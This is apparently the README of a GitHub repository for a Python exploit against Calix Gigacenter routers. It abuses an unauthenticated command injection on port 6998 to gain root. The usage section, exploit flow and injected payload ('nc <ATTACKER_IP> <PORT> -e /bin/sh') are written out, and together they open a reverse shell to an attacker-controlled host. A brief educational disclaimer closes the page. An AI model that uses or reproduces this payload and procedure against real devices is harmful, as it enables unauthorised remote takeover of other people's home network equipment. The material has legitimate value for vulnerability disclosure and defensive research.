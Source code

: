 
# 📡 Calix Gigacenter Pre-Auth RCE Exploit (Port 6998)

This Python-based exploit targets Calix Gigacenter devices (812Gv2 / 5VT Series), leveraging a **pre-authenticated remote code execution (RCE)** vulnerability exposed via TCP **port 6998** which cwmp component is listening on. Successful exploitation leads to a reverse shell.

## 🔍 Vulnerability Details

The CLI exposed on port 6998 accepts unauthenticated input, which is improperly sanitized. By injecting a command wrapped in backticks (`` `command` ``), an attacker can achieve arbitrary command execution on the target device.

- The vulnerability affects **Calix Gigacenter 812Gv2** and **5VT Series**.
- The flaw allows execution of commands as root, without credentials.
- Reference:  
  - [SSD Disclosure Advisory](https://ssd-disclosure.com/ssd-advisory-calix-pre-auth-rce/)  
  - [CyberPress Article](https://cyberpress.org/calix-pre-auth-rce-port-6998/)

## 🚀 Exploit Features

- Written in Python using `pwntools`.
- Spawns a reverse shell automatically via netcat.
- Uses a threaded listener to catch the shell.
- Logging included (via `logging` module) instead of `print()`.

## 🧠 Requirements

- Python 3.x
- [`pwntools`](https://docs.pwntools.com/en/stable/)
  ```bash
  pip install pwntools
  ```

## ⚙️ Usage

```bash
python3 Gigacenter.py <TARGET_IP> <ATTACKER_IP> <ATTACKER_PORT>
```

### Example:

```bash
python3 Gigacenter.py 192.168.1.1 192.168.1.100 4444
```
![rce](https://github.com/user-attachments/assets/d0a63983-5933-4214-a233-fb02c7256b82)

Make sure to have `nc -lvnp 4444` running or let the script handle the listener itself.

## 💀 Exploit Flow

1. Connects to the target on port 6998.
2. Spawns a thread that listens for reverse shell connection.
3. Sends the RCE payload:  
   ```
   `nc <ATTACKER_IP> <PORT> -e /bin/sh`
   ```
4. Interacts with the received shell.

## ⚠️ Legal Disclaimer

This code is provided for **educational and research purposes only**. Unauthorized access to systems is illegal and unethical. The author is not responsible for any misuse.

---

